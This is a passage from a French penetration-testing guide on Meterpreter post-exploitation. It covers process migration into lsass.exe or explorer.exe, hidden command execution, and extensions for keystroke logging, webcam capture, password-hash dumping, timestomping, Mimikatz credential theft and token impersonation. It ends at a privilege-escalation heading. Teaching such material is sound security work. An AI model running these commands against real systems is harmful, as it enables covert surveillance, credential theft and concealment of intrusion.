### Gestion des processus

```
# Affichage des processus
meterpreter > ps

# Migration vers un autre processus
meterpreter > migrate 1234

# Exécution d'une commande
meterpreter > execute -f cmd.exe -i -H
```

> **COMMENT ?**  
> La migration vers un autre processus est une technique essentielle pour la stabilité et la persistance. Privilégiez des processus stables et de longue durée comme `explorer.exe` ou `lsass.exe`. La migration vers un processus avec des privilèges plus élevés peut également permettre une élévation de privilèges.

### Extensions Meterpreter

```
# Affichage des extensions chargées
meterpreter > use -l

# Chargement d'une extension
meterpreter > use stdapi
meterpreter > use priv

# Utilisation de fonctionnalités d'extension
meterpreter > screenshot
meterpreter > webcam_snap
meterpreter > keyscan_start
```

Extensions importantes :

| Extension | Description | Commandes notables |
|-----------|-------------|-------------------|
| stdapi | API standard (par défaut) | file, sys, net, ui, etc. |
| priv | Fonctionnalités privilégiées | hashdump, timestomp |
| kiwi | Version intégrée de Mimikatz | creds_all, kerberos_* |
| python | Exécution de scripts Python | python_execute |
| powershell | Exécution de PowerShell | powershell_execute |
| incognito | Usurpation de jetons | list_tokens, impersonate_token |

## Élévation de privilèges

### Techniques d'élévation de privilèges Windows
